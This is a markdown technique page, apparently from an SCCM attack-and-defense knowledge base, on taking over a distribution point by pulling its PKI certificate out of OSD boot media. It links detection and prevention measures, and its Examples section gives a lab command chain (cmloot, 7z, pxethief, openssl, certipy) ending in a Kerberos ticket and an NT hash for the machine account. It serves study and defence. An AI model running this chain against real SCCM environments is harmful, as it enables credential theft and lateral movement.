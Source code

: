 # ELEVATE-5

## Description
Distribution Point Takeover via OSD Media Recovery


## MITRE ATT&CK Tactics
- [TA0008](https://attack.mitre.org/tactics/TA0008) - Lateral Movement
- [TA0004](https://attack.mitre.org/tactics/TA0004) - Privilege Escalation

## Requirements
- PKI client authentication certificates are used for communication with the target distribution point
- The distribution is PXE-enabled or still hosts the OSD media boot images for PXE

One of the following:
- Connectivity to SMB on the distribution point OR
- Connectivty to HTTP(s) on the distribution point

And one of the following:
- Valid Active Directory domain credentials 
- Anonymous authentication enabled on the distribution point

## Summary
SCCM sites may optionally be configured to support public-key infrastructure (PKI) certificates for secure communications. For deployments with internet-based site systems, PKI certificates are required. When deployed, the distribution point (DP) role requires its PKI certificate to support client authentication and for the private key to be exportable. The certificate is used by the DP to support communication with HTTPS enabled management points. During OSD task sequence media, the certificate is imported where required to support HTTPS communications to management points during operating system deployment. For environments that leverage Microsoft's PKI solution Active Directory Certificate Services (AD CS), the certificate generated for the DP role may be used to authenticate as the DP's host AD machine account. An attacker who is able to successfully recover the PKI certificate from the OSD task sequence variables file contents may gain control of the certificate's AD identity.

## Impact 

 The impact of recovery is environment dependent. At a minimuim, based on Microsoft's [documentation](https://learn.microsoft.com/en-us/intune/configmgr/core/plan-design/network/pki-certificate-requirements#site-systems-that-have-a-distribution-point-installed) an attacker that recovers this certificate can impersonate a DP's AD identity and compromise the host system. 

## Defensive IDs
- [DETECT-7: Monitor read access to the SMSTemp directory](../../../defense-techniques/DETECT/DETECT-7/detect-7_description.md)
- [PREVENT-6: Configure a strong PXE boot password](../../../defense-techniques/PREVENT/PREVENT-6/prevent-6_description.md)

## Examples

1. On the attacker server, using cmloot.py triage the content library for common OSD media formats like .WIM or .ISO

```
┌──(cmloot)─(root㉿sccm-kali)-[~/cmloot]
└─# python3 cmloot.py ludus.domain/domainuser:password@10.6.10.12 -cmlootinventory sccmfiles.txt
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[+] Access to SCCMContentLib on 10.6.10.12
[+] sccmfiles.txt created

┌──(cmloot)─(root㉿sccm-kali)-[~/cmloot]
└─# python3 cmloot.py ludus.domain/domainuser:password@10.6.10.12 -cmlootdownload sccmfiles.txt -extensions WIM ISO
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[+] sccmfiles.txt exists. Remove it if you want to recreate the inventory.
[+] Extensions to download ['WIM', 'ISO']
[+] Creating CMLootOut
[+] Downloaded D55D-boot.12300002.wim
[+] Downloaded 3203-win11.wim
[+] Downloaded 8A5E-prestaged.wim
```
2. Using an archiving tool such as 7zip, parse the recovered media files for and extract the Variables.dat task sequence variables file.

```
┌──(cmloot)─(root㉿sccm-kali)-[~/cmloot/CMLootOut]
└─# 7z l 8A5E-prestaged.wim|grep -i Variables.dat
2025-06-19 16:23:53 ....A        24248        24248  SMS/data/Variables.dat

```
3. Use pxethief.py to extract the PKI certificate from the recovered variables file

```
┌──(PXEThief)─(root㉿sccm-kali)-[~/cmloot/CMLootOut/SMS/data]
└─# python3 /home/kali/PXEThief/pxethief.py 3 Variables.dat

 ________  ___    ___ _______  _________  ___  ___  ___  _______   ________
|\   __  \|\  \  /  /|\  ___ \|\___   ___\\  \|\  \|\  \|\  ___ \ |\  _____\
\ \  \|\  \ \  \/  / | \   __/\|___ \  \_\ \  \\\  \ \  \ \   __/|\ \  \__/
 \ \   ____\ \    / / \ \  \_|/__  \ \  \ \ \   __  \ \  \ \  \_|/_\ \   __\
  \ \  \___|/     \/   \ \  \_|\ \  \ \  \ \ \  \ \  \ \  \ \  \_|\ \ \  \_|
   \ \__\  /  /\   \    \ \_______\  \ \__\ \ \__\ \__\ \__\ \_______\ \__\
    \|__| /__/ /\ __\    \|_______|   \|__|  \|__|\|__|\|__|\|_______|\|__|
          |__|/ \|__|

[+] Attempting to decrypt media variables file and retrieve policies and passwords from MECM Server...
[+] User did not supply password. Making use of default MECM media variables password (only works for non-password protected media)
[+] Media variables file to decrypt: Variables.dat
[+] Password provided: {BAC6E688-DE21-4ABE-B7FB-C9F54E6DB664}
[+] Successfully decrypted media variables file with the provided password!
[!] Writing media variables to variables.xml
[!] Writing _SMSTSMediaPFX to 123_8AE6B618-77EC-46CB-B1B5-88F693E_SMSTSMediaPFX.pfx. Certificate password is 8AE6B618-77EC-46CB-B1B5-88F693E
[+] Identifying Management Point URL from media variables (Subsequent requests may fail if DNS does not resolve!)
[+] Management Point URL set to: https://sccm-mgmt.ludus.domain
```

3. Inspect the certificate with openssl to confirm it's an AD CS certificate and contains the client authentication EKU

```
┌──(PXEThief)─(root㉿sccm-kali)-[~/cmloot/CMLootOut/SMS/data]
└─# openssl \
-in 123_8AE6B618-77EC-46CB-B1B5-88F693E_SMSTSMediaPFX.pfx \
-passin pass:8AE6B618-77EC-46CB-B1B5-88F693E \
-nokeys -clcerts | openssl x509 -text -certopt no_pubkey,no_sigdump -noout
Certificate:
    Data:
        Version: 3 (0x2)
        Serial Number:
            13:00:00:00:1b:3f:6d:ff:d3:07:16:36:2c:00:00:00:00:00:1b
        Signature Algorithm: sha256WithRSAEncryption
        Issuer: DC=domain, DC=ludus, CN=ludus-CA
        Validity
            Not Before: Jun  2 19:35:17 2025 GMT
            Not After : Jun  2 19:35:17 2026 GMT
        Subject:
        X509v3 extensions:
            Microsoft certificate template:
                0/.'+.....7.....k...............6.=...t...y..d...
            X509v3 Extended Key Usage:
                TLS Web Client Authentication
            X509v3 Key Usage: critical
                Digital Signature, Key Encipherment
            Microsoft Application Policies Extension:
                0.0
..+.......
            X509v3 Subject Key Identifier:
                62:55:1A:83:88:8E:1B:03:0C:76:2E:84:87:5F:B2:D0:27:92:2B:DB
            X509v3 Authority Key Identifier:
                74:86:80:EB:30:51:04:4D:D8:32:A0:33:7D:BB:77:24:18:C5:50:65
            X509v3 CRL Distribution Points:
                Full Name:
                  URI:ldap:///CN=ludus-CA,CN=DC01,CN=CDP,CN=Public%20Key%20Services,CN=Services,CN=Configuration,DC=ludus,DC=domain?certificateRevocationList?base?objectClass=cRLDistributionPoint

            Authority Information Access:
                CA Issuers - URI:ldap:///CN=ludus-CA,CN=AIA,CN=Public%20Key%20Services,CN=Services,CN=Configuration,DC=ludus,DC=domain?cACertificate?base?objectClass=certificationAuthority
            X509v3 Subject Alternative Name: critical
                DNS:sccm-distro.ludus.domain

```


4. Use certipy to authenticate on behalf of the recovered certificate's identity.

```
┌──(PXEThief)─(root㉿sccm-kali)-[~/cmloot/CMLootOut/SMS/data]
└─# certipy auth -pfx 123_8AE6B618-77EC-46CB-B1B5-88F693E_SMSTSMediaPFX.pfx -password 8AE6B618-77EC-46CB-B1B5-88F693E -dc-ip 10.6.10.10
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN DNS Host Name: 'sccm-distro.ludus.domain'
[*] Using principal: 'sccm-distro$@ludus.domain'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'sccm-distro.ccache'
[*] Wrote credential cache to 'sccm-distro.ccache'
[*] Trying to retrieve NT hash for 'sccm-distro$'
[*] Got hash for 'sccm-distro$@ludus.domain': aad3b435b51404eeaad3b435b51404ee:b8388cab9a861556b6132ae7e4de71c5

```


## References
- Christopher Panayi, [pxethief](https://github.com/MWR-CyberSec/PXEThief)
- Christopher Panayi, [Identifying and retrieving credentials from SCCM/MECM Task Sequences](https://www.mwrcybersec.com/research_items/identifying-and-retrieving-credentials-from-sccm-mecm-task-sequences)
- CRED-1, [Retrieve secrets from PXE boot media](../../CRED/CRED-1/cred-1_description.md)
- ELEVATE-4, [Distribution Point Takeover via PXE Boot Spoofing](../ELEVATE-4/ELEVATE-4_description.md)
- Microsoft, [PKI certificate requirements for Configuration Manager](https://learn.microsoft.com/en-us/intune/configmgr/core/plan-design/network/pki-certificate-requirements#task-sequence-media-for-deploying-operating-systems)


